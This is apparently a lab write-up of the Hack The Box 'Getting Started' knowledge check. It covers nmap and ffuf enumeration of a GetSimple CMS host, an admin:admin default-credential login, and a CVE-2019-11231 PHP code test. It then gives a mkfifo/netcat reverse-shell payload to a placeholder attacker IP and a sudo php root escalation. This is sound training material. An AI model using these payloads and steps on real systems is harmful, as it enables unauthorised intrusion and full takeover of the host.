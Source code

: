 ```yaml
---
description: Knowledge Check write-up.
---
```


# Knowledge Check

The _Getting Started_ module represents a taste of what's coming on later in the next modules.\
Since we'll go in depth or each technique like transferring files, privilege escalation and more, we'll go through the Knowledge Check part directly.

## 0. Connecting to VPN:

I use my proper PerrotOS VM, so:

```bash
└──╼ $sudo openvpn <PATH TO THE VPN FILE>
```

## 1. Enumeration & Information Gathering:

### Nmap:

```bash
└──╼ $nmap 10.129.245.204 -sC -sV -oA nmap-def-initial-scan
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Initial nmap output.</p></figcaption></figure>

We already got some interesting stuff, a Linux machine hosting an Apache server with port 80 open, an accessible robots.txt file containing a disallowed entry /admin. \
So upon checking the IP on port 80 here's what we got:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

First we'll associate this IP address to a domain name :&#x20;

```bash
└──╼ $sudo sh -c 'echo "10.129.245.204 gettingstarted.htb" >> /etc/hosts'
```

\
After checking what GetSimple is i run into this phrase:\


> "GetSimple CMS allows you to create a dynamic site to your image, easy updation of content            without limit by administration system."

Sounds, juicy enough for us.\
So we'll let a full nmap scan or all ports run in the background using \
`└──╼ $nmap 10.129.109.127 -p- nmap-full-scan` and move further in our investigations.\


First thing that comes to mind is checking for any hidden subdirectories, subdomains, pages ..etc&#x20;

### Directory Fuzzing:

We'll use "directory-list-2.3-small.txt" from SecLists repo.

```bash
└──╼ $ffuf -w /home/si7emed/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.245.204/FUZZ
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Obviously after poking around the discovered directories, we visit the admin login page :

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After using some default credentials, we successfully got a login to the admin's dashboard with admin:admin credentials:

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

And we got the GetSimple CMS version 3.3.15. And we got a public vulnerability: CVE-2019-11231, which is ,as described in [https://nvd.nist.gov/vuln/detail/CVE-2019-11231](https://nvd.nist.gov/vuln/detail/CVE-2019-11231) a file upload vulnerability in the _**theme-edit.php**_ file that might allow us to upload to the file with arbitrary code like PHP. \
If it is indeed vulnerable we can easily obtain a reverse shell!\
Let's check if it is vulnerable:\
\
Navigating to the theme-edit.php file we found a php code to which we can add this PHP code to test if it goes through:  <mark style="color:red;">**`<?php echo shell_exec('id'); ?>`**</mark>

So after saving, we check the http://gettingstarted.htb/ page we find that it is indeed vulnerable and printed out the output of the `id` command in the bottom of the page:

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

## 2. Exploitation & Getting a foothold :

As already shown in [#id-1.-reverse-shells](shells-and-ssh/setting-up-shells.md#id-1.-reverse-shells "mention") we can now inject a reverse shell using the following PHP code:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f"); ?>
```

Let's now set up a listener on the port already specified:

```bash
└──╼ $nc -nlvp 9999
listening on [any] 9999 ..
```

Then navigate to the http://gettingstarted/ page in order to execute the code. Meanwhile we should keep an eye on the netcat listener we sat up, and a successful connection should pop out :

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption><p>Successful Rev Shell</p></figcaption></figure>

After upgrading the Reverse shell as instructed in [#id-3.-upgrading-tty](shells-and-ssh/setting-up-shells.md#id-3.-upgrading-tty "mention")

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Getting the user flag</p></figcaption></figure>

## Privilege escalation:

Before going to enumerate using automated scripts (like linpeas.sh), let's have a look for the available sudo privileges: \
`sudo -l` command will list all the possible sudo privileges, as said in the documentation:

> \-l \[l] \[_command_]\
> If no _command_ is specified, the -l (_list_) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. If a _command_ is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments.

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption><p>Showing that we can execute the /usr/bin/php<br>as a root without authentication.</p></figcaption></figure>

Going to [https://gtfobins.github.io/gtfobins/php/](https://gtfobins.github.io/gtfobins/php/), we find a bash script to exploit this vulnerability and get a shell with elevated privileges:

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">Instead of defining a variable containing the '/bin/sh' string i simply put it into the function parameter. It does the same job, same result.</mark>
{% endhint %}

{% hint style="info" %}
<mark style="color:blue;">We can still upgrade the shell of the root user as we did to the basic user but since we only need to read the flag without any complex procedures, it would be an overkill.</mark>
{% endhint %}

{% hint style="success" %}
<mark style="color:green;">We successfully got a shell as the root user we can now get user flag located in /root/root.txt</mark>
{% endhint %}
